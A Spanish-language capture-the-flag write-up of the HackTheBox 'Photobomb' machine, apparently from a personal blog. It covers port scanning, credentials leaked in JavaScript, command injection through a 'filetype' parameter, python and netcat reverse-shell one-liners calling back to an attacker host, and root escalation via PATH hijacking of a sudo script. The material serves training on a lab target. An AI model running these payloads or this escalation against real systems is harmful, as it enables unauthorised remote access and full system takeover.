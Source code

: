 ```yaml
---
title: Photobomb WriteUp
author: H4ckerLite 
date: 2023-02-04 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [hackthebox, writeup, easy, command injection, path hijacking, easy]
pin: false
image:
  path: ../../assets/img/commons/photoBomb-writeup/Photobomb.png 
  alt: Photobomb WriteUp
---
```


Hoy tocará explotar la máquina **Photobomb** de [HackTheBox](https://app.hackthebox.com/machines/photobomb), es de dificultad fácil. Haremos un `command injection` y para la escalada haremos un `Path Hijacking`


## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.





```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 13:24 -04
Initiating SYN Stealth Scan at 13:24
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed SYN Stealth Scan at 13:24, 17.92s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.16s latency).
Scanned at 2023-02-04 13:24:12 -04 for 18s
Not shown: 61907 closed tcp ports (reset), 3626 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
           Raw packets sent: 87248 (3.839MB) | Rcvd: 67894 (2.716MB)
```



Nos percatamos que tiene el SSH abierto y el puerto 80 que corresponde al HTTP, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:



```bash
echo "10.10.11.182       photobomb.htb" | tee -a /etc/hosts
```

## Enumeración

Vemos una pagina de inicio con un redirect a `/printer`


 ![WebSite]({{ 'assets/img/commons/photoBomb-writeup/main.png' | relative_url }}){: .center-image }
 _Web Site_


Si intentamos acceder nos pedirá credenciales

 ![login]({{ 'assets/img/commons/photoBomb-writeup/login.png' | relative_url }}){: .center-image }
 _Log in_

Podemos probar credenciales típicas por defecto, pero no resultará útil.

```
admin:admin
admin:password
admin:pass
guest:guest

```
Si revisamos el código fuente nos encontramos con cosaas interesantes.

Le aplicamos un **curl**.
```bash
❯ curl -s -X GET http://photobomb.htb
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```
Podemos ver un script de JavaScript, si vemos su contenido se nos filtra una cookie

```bash
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
Al copiar dicha cookie, podemos ver el panel `/printer`.

![login]({{ 'assets/img/commons/photoBomb-writeup/confirm.png' | relative_url }}){: .center-image }
_Log in_

## Explotación

En este apartado vemos unas imagenes las cuales podemos descargar y hacer pequeñas modificaciones como ser:
>Cambiarle la extensión y modicar el tamaño.


![printer]({{ 'assets/img/commons/photoBomb-writeup/printer.png' | relative_url }}){: .center-image }
_Printer_

Podemos interceptar la petición con BurpSuite y ver mas a detalles como se estructura todo

![Burp]({{ 'assets/img/commons/photoBomb-writeup/burp.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver si es vulnerable a un **Command injection**, pero antes que nada inicia un servidor con `python`

```bash
python -m http.server 80
```
Mandamos la petición al `Repeater`, para ello presionamos `Ctrl + R`
Si nos fijamos en los parametros podemos agregar `;` y añadir nuestro comando, se vería así

![BurpSuite]({{ 'assets/img/commons/photoBomb-writeup/burp1.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver que no le gusta en algunos parametros, pero con haciendo prueba y error encontramos que el parametro `filetype` es vulnerable, lo podemos comprobar en la petición

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [04/Feb/2023 14:45:12] "GET / HTTP/1.1" 200 -
```
Podemos intentar enviarnos una reverse shell, usano esta [página](https://www.revshells.com/) podemos hacer la reverse shell con varias opciones.
Probaremos con bash pero no funciona, así que podemos probar con python3 y esta nos lanzará la shell

```python
export RHOST="10.10.14.25";export RPORT=444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
![RCE]({{ 'assets/img/commons/photoBomb-writeup/burp2.png' | relative_url }}){: .center-image }
_RCE_


>Nota: Si usas nc mkfifo y url encode te lanzará la shell igual

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.25%20444%20%3E%2Ftmp%2Ff
```

Ganamos acceso a la máquina, estamos listos para rootearla
```bash
❯ nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.182] 49946
wizard@photobomb:~/photobomb$ 
```
Toca realizar un tratamiento a la tty, te puedes guiar de mi [blog](https://h4ckerlite.github.io/posts/tty).


Una vez adentro podemos leer la primera flag

```bash
wizard@photobomb:~/photobomb$ cat ../user.txt 
06****************************78
wizard@photobomb:~/photobomb$ 
```



## Escalada de privilegios

Si vemos los privilegios **SUDOERS** vemos que podemos ejecutar un programa hecho en **bash**

```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
Vemos que lo podemos ejecutar sin proporcionar ninguna contraseña, es decir que al ejecuralo como **sudo** sera ejecutado de forma temporal como root sin proporcionar contraseña

```bash
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ 
```

Si vemos el contenido de dicho archivo nos encontramos con binarios que podemos usar para elevar nuestros privilegios.

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~/photobomb$ 

```
Vemos que el binario `find` esta con ruta relativa no absoluta y esto puede derivar a un **Path Hijacking**, 

Podemos aprovechar que podemos cambiar variables de entorno como el Path para que nos ejecute el comando find personalizado, y bajo el contexto de sudo nuestro binario find lo ejecutará root.

```bash
wizard@photobomb:/tmp$ echo bash > find
wizard@photobomb:/tmp$ chmod 777 find 
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -l /bin/bash
root@photobomb:/home/wizard/photobomb# 

```
Ya rooteamos la máquina, lo que hicimos fue hacer un binario perzonalizado find que nos lanze una bash como root, en este caso, ya que el esta ejecutando el `/opt/cleanup.sh` con el binario find de forma relativa.
Procedemos a leer la flag

```bash
root@photobomb:/home/wizard/photobomb# cat /root/root.txt 
74****************************35
root@photobomb:/home/wizard/photobomb# 
```
¡¡¡Máquina Pwneada!!! Te deseo un Feliz Hackeo.


